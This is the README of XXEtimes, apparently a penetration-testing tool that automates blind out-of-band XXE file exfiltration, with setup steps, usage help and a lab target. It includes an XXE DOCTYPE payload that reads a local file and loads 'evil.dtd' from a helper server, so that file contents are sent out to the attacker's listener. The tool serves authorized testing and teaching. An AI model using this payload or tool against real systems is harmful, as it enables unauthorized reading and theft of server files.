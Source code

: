 # XXEtimes
XXEtimes is a self-contained PoC to make exploring and exfiltrating files through OOB XXE much quicker.

I come across blind XXE injection vulnerabilities quite a bit, and love using OOB techniques to read files and directory contents, but it's a very tedious process.

Usually it's a multi-step process that involves using Burp Suite Repeater to send the malicious request, a web server to serve up the crafted DTD file, and another listening server to capture the OOB HTTP request which contains file contents. And to change file or directory I have to manually modify the DTD and resend the request each time.

I got sick of the setup time and spinning up servers, so I wrote XXEtimes. Its aim is to be a self-contained tool to aid in data exfiltration once an OOB XXE injection has been discovered. It parses a request file from Burp, spins up a webserver, serves a DTD, and parses responses for file contents. It continually runs and lets you just type files or directories you want to exfiltrate.

See it in action here. I used it to browse home directories and find an unprotected key backup:

[![asciicast](https://asciinema.org/a/122903.png)](https://asciinema.org/a/122903)

## Setting Up
```
git clone https://github.com/ropnop/xxetimes.git
cd xxetimes
pip install requests
python xxetimes.py
```

The script requires a request file. Once you have found an XXE injection in Burp, export the request file to txt. Add the following DOCTYPE declaration to the request:

```
<!DOCTYPE foo [
<!ENTITY % file SYSTEM "file://{targetFilename}">
<!ENTITY % dtd SYSTEM "http://{xxeHelperServerInterface}:{xxeHelperServerPort}/evil.dtd">
%dtd;]>
```

The special params in "{}" are necessary for XXEtimes to work. There is an example request file in the repo. This works with the deliberately vulnerable [PlayXXE challenge](https://pentesterlab.com/exercises/play_xxe) from Pentesterlab if you want to test it.

## Usage

```
$ python xxetimes.py -h
usage: xxetimes.py [-h] -f REQUESTFILE [-p PORT] [-t TARGETHOST]
                   [-l LISTENPORT] -i INTERFACE

Local File Explorer Using XXE DTD Entity Expansion

optional arguments:
  -h, --help            show this help message and exit
  -f REQUESTFILE, --requestFile REQUESTFILE
                        Vulnerable request file with {targetFilename},
                        {xxeHelperServerInterface}, and {xxeHelperServerPort}
                        marked
  -p PORT, --port PORT  Port on target host (eg 80, 443)
  -t TARGETHOST, --targetHost TARGETHOST
                        Override host header in request file
  -l LISTENPORT, --listenPort LISTENPORT
                        Port for local DTD helper server
  -i INTERFACE, --listenIP INTERFACE
                        Bind IP address for local DTD helper server
```

It will likely require customization and tweaking for each specific vulnerability, but as long as the locations `{targetFilename}`, `{xxeHelperServerInterface}` and `{xxeHelperServerPort}` are present it should work.

Once you have your request file created with the appropriate injection points marked, fire it up with:

`python xxetimes.py -f request.txt -i <IP address to listen on>`

After the server spins up, simply type in the file or directory you wish to request (note: if the file doesn't exist or you don't have permissions, it will fail silently and display nothing)

On the backend, XXEtimes is customizing the "evil.dtd." file to define the `file` entity for what you enter. It then sends the malicious request, listens for the request for 'evil.dtd', serves up `evil.dtd`, listens for the subsequent request which contains the file contents in a URL parameter, then decodes file contents and displays it on screen.

To shutdown gracefully, enter `Ctrl-C`.



## Testing it out
Since I didn't want to write an actually vulnerable server, I've been testing with the "Play XXE" challenge ISO located here. 

<https://pentesterlab.com/exercises/play_xxe/course>

It's a bootable ISO you can run locally if you want to test it. It is vulnerable to XXE on the main login page, and the example request should work out of the box on it (as long as the IP address is updated!)


## Future plans
- [ ] Support history and "up arrow" completion
- [ ] Save files locally once they're retrieved
- [ ] Support other OOB methods like FTP
